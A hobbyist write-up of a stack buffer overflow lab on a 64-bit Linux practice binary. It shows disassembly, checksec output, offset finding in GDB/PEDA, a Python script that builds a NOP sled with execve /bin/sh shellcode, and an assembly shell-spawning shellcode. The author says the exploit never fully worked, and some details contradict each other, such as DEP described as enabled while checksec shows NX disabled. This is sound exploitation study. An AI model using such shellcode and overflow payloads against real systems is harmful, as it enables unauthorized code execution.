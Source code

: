 ```yaml
---
title: Exploiting Buffer Overflow
published: true
---
```


For this topic I went with 
[https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](Binary can be found here)

### Disassembly

I made an effort to ignore the source code and use disassembly to identify the buffer overflow. I set the assembly flavor to be Intel for easier reading.

```bash
devel@kub:~/challenges/r2libc$ objdump -M intel -d ./ret2libc vuln
<snip>
0000000000401176 <vuln>:
  401176:       f3 0f 1e fa             endbr64 
  40117a:       55                      push   rbp
  40117b:       48 89 e5                mov    rbp,rsp
  40117e:       48 83 ec 60             sub    rsp,0x60
  401182:       48 8d 45 a0             lea    rax,[rbp-0x60]
  401186:       ba 90 01 00 00          mov    edx,0x190
  40118b:       48 89 c6                mov    rsi,rax
  40118e:       bf 00 00 00 00          mov    edi,0x0
  401193:       e8 e8 fe ff ff          call   401080 <read@plt>
  401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax
  40119b:       48 8d 55 a0             lea    rdx,[rbp-0x60]
  40119f:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
  4011a2:       89 c6                   mov    esi,eax
  4011a4:       48 8d 3d 59 0e 00 00    lea    rdi,[rip+0xe59]        # 402004 <_IO_stdin_used+0x4>
  4011ab:       b8 00 00 00 00          mov    eax,0x0
  4011b0:       e8 bb fe ff ff          call   401070 <printf@plt>
  4011b5:       48 8d 3d 63 0e 00 00    lea    rdi,[rip+0xe63]        # 40201f <_IO_stdin_used+0x1f>
  4011bc:       e8 9f fe ff ff          call   401060 <puts@plt>
  4011c1:       b8 00 00 00 00          mov    eax,0x0
  4011c6:       c9                      leave  
  4011c7:       c3                      ret    

00000000004011c8 <main>:
  4011c8:       f3 0f 1e fa             endbr64 
  4011cc:       55                      push   rbp
  4011cd:       48 89 e5                mov    rbp,rsp
  4011d0:       48 83 ec 10             sub    rsp,0x10
  4011d4:       89 7d fc                mov    DWORD PTR [rbp-0x4],edi
  4011d7:       48 89 75 f0             mov    QWORD PTR [rbp-0x10],rsi
  4011db:       48 8d 3d 51 0e 00 00    lea    rdi,[rip+0xe51]        # 402033 <_IO_stdin_used+0x33>
  4011e2:       b8 00 00 00 00          mov    eax,0x0
  4011e7:       e8 84 fe ff ff          call   401070 <printf@plt>
  4011ec:       b8 00 00 00 00          mov    eax,0x0
  4011f1:       e8 80 ff ff ff          call   401176 <vuln>
  4011f6:       b8 00 00 00 00          mov    eax,0x0
  4011fb:       c9                      leave  
  4011fc:       c3                      ret    
  4011fd:       0f 1f 00                nop    DWORD PTR [rax]
<snip>
```

The stack space created is 0x60 (96) bytes. We can tell from 
`401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax` and
`401182:       48 8d 45 a0             lea    rax,[rbp-0x60]`

that there are two stack variables at least. The first one is 8 bytes (likely an int) which means there must be another 8 bytes of padding. The remaining 0x50 (80) bytes make up the stack buffer

So in the vuln function there is a buffer of at most 0x50 (80) bytes, but read is given a size of 0x190 (400) bytes.


### checksec

Next up is to determine exactly what security protections are in place. 

```bash
devel@kub:~/challenges/classic$ checksec classic
[*] '/home/devel/challenges/classic/classic'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

devel@kub:~/challenges/classic$ cat /proc/sys/kernel/randomize_va_space 
0
```

We know that DEP is enabled. DEP can be defeated with ROP.

### Buffer Overflow

The first step in any buffer overflow is find the size of the overflow. I'm using PEDA.

I start gdb on the binary. First step is to make a pattern big enough to guarantee an overflow. 0x60 is 96 bytes, so I'll make a pattern of 500 bytes just to be sure.

```bash
db-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
```

Next I run the binary with in.txt as input.

```bash
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA�
No shell for you :(

Program received signal SIGSEGV, Segmentation fault.
```

64 bit doesn't allow direct manipulation of RIP, so I need to look at RSP to see if I control that

```bash
gdb-peda$ x/wx $rsp
0x7fffffffe508: 0x41413741

gdb-peda$ pattern_offset 0x41413741
1094793025 found at offset: 104
```

The overflow occurs at 104 bytes in

### shellcode

The stack is executable so instead of a pattern, I can write shellcode to the buffer

I'm going to use a NOP sled, followed by shellcode that runs `/bin/sh`

#### Gotcha 1
 GDB will show the exploit running by using `r < in.txt`
 
 To get it to run on the command line we need to use trickery. `(cat in.txt ; cat) | ./classic`
 [https://security.stackexchange.com/questions/155844/using-cat-file-cat-to-run-a-simple-bof-exploit](cat BOF)
 
#### Gotcha2
GDB alters the environment by setting LINES and COLUMNS. Unset these live or in .gdbinit
```
unset env LINES
unset env COLUMNS
```

Also remove any environment with `env - /abs/path/classic` and `env - gdb /abs/path/classic`


### results

I never did get the full shellcode running. The addresses are slightly off still

### python 

```py
#!/usr/bin/python3
import struct

buflen = 104
nop = b'\x90' * 40

# 27 byte execve /bin/sh from tutorial
#shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
# call exit instead of execve. Works.
#shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3c\x0f\x05"

# 25 byte execve /bin/sh
#shellcode = b"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\xCC\x0f\x05"

# 30 byte execve /bin/sh
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\xCC\x0f\x05"

# execve /bin/bash with esp math?
#shellcode = b"\xCC\x48\x31\xd2\x52\x48\x83\xec\x40\xc6\x44\x24\x07\x2f\xc7\x44\x24\x08\x62\x69\x6e\x2f\xc7\x44\x24\x0c\x62\x61\x73\x68\x48\x8d\x7c\x24\x07\x52\x57\x48\x89\xe6\x31\xc0\xb0\x3b\xCC\x0f\x05"

# print hello world. works.
#shellcode = b"\xeb\x1e\x5e\x48\x31\xc0\xb0\x01\x48\x89\xc7\x48\x89\xfa\x48\x83\xc2\x0e\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05\xe8\xdd\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a"



#rip = struct.pack("<Q", 0x7fffffffde50) # address of buffer gdb
rip = struct.pack("<Q", 0x7fffffffdea0) # address of buffer normal

padding = b"D" * (buflen - len(nop) - len(shellcode))
payload = nop + shellcode + padding + rip

f = open("in.txt", "wb")
f.write(payload)
f.close()
```

```asm
# nasm -f elf64 sh.s -o sh.o
# ld sh.o -o sh
# gcc -m64 -Wl,-e_start -nostdlib hello.S
	
.section .text
  .globl _start

	_start:
	    # third argument of execve is envp, set to NULL
	    xor %rdx, %rdx 

	    # zero terminator
	    push %rdx

	    # space for string
	    sub $16, %rsp

	    # end is aligned to the zero terminator
	    movb $0x2f, 7(%rsp)        # /
	    movl $0x2f6e6962, 8(%rsp)  # bin/
	    movl $0x68736162, 12(%rsp) # bash
	    movl $0x0a, 16(%rsp)

	    # first argument to execve is the file name
	    leaq 7(%rsp), %rdi

	    # push NULL to the stack, argv terminator
	    pushq %rdx 

	    # also argv[0]
	    push %rdi

	    # second argument to execve is argv
	    mov %rsp, %rsi

	    # copy 59 to rax, defining syscall number for execve
	    # avoid zero byte
	    xor %eax, %eax
	    movb $59, %al 
	    syscall
```
